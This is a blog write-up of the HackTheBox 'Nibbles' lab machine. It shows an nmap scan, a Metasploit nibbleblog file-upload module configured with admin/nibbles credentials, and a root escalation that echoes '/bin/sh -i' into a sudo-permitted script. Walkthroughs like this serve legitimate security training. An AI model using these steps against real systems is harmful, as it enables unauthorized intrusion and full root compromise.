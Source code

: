 ```yaml
---
layout: post
title:  "HackTheBox - Nibbles"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/nibbles/
---
```

Another breezy box by htb that we can fly through with metasploit.

# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# pwning user
Checking the web source will show us a comment leaking a running web service. Metasploit will do the rest.
```php
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
```
Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.10.10.75      yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host
```

# getting root
A quick sudo -l check will show us the route to root.
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
We can use su with monitor.sh without a password. We can echo a bash string into the script to force a root shell is returned.
```
echo '/bin/sh -i' > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
#
```



